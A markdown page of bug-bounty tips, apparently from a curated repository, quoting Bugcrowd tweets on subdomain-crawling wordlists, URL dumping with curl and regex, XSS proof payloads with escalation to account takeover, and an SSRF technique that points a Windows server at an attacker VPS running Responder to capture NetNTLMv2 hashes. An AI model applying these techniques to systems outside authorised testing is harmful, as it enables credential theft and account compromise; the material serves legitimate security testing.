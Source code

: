 # 🔄 Technical Process

A curated list of technical/process tips that will level up your bounty game. For more, head [back to the main page](./README.md).

## Quick wordlist creation

Source: https://twitter.com/Bugcrowd/status/1362627992036519940

```
A quick one-liner that will gather + crawl all subdomains, then convert to a custom wordlist unique to that organisation based on discovered URLs!

subfinder -d bugcrowd[.]com -silent | httpx -silent | hakrawler -plain | tr "[:punct:]" "\n" | sort -u
```
You can also do that using [tok](https://github.com/tomnomnom/hacks/tok)

```
subfinder -d bugcrowd[.]com -silent | httpx -silent | hakrawler -plain | tok | sort -u
```

## Dumping URLs with regex

Source: https://twitter.com/Bugcrowd/status/1364809861964451849

```
Looking to quickly dump URLs from a webpage using curl and some regex magic!? Try: 

curl -s https://www.bugcrowd[.]com | pcregrep -o "(http:\/\/|https:\/\/).*?(?=\"|'| )" | sort -u
```

## alert(1) -> alert(document.domain)

Source: https://twitter.com/Bugcrowd/status/1367346572858695681

```
When you find an XSS, at minimum, use alert(document.domain) over alert(1). This helps to demonstrate the context that the JavaScript is executing in. Even better, escalate the XSS to perform an account takeover!
```

## SSRF -> Password Hashes

Source: https://twitter.com/Bugcrowd/status/1368320520526180355

```
If you ever find a SSRF on a Windows box, try running http://responder.py on your own VPS, then send the SSRF to file://<yourvps>. With a bit of luck, the server will send you some tasty Windows NetNTLMv2 hashes to crack!
```

## Common XXE Weakpoints
